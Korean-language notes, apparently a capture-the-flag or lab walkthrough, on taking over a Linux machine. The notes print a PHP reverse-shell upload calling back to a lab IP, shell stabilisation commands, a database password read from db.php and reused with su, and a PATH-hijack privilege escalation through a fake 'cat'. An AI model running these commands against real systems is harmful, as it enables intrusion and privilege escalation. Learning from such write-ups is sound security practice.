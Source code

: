 reverse shell
#
`1. php 업로드`
```
<?php
  exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.217/1234 0<&1'")
?>
```
`2. 셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```
`3. 탐색(home, var 하위 디렉토리)`
```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
`4. 얻은 정보로 권한 상승?`
```
su robert
M3g4C0rpUs3r!
``` 
```
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
```
find / -group bugtracker 2>/dev/null
```
`bugtracker`그룹에 접근
```
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
id를 몰라서 접근이 안된다.

![image](https://user-images.githubusercontent.com/61821641/149992123-52fab6e7-b05b-41ea-b696-72f866995ed3.png)

`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
#

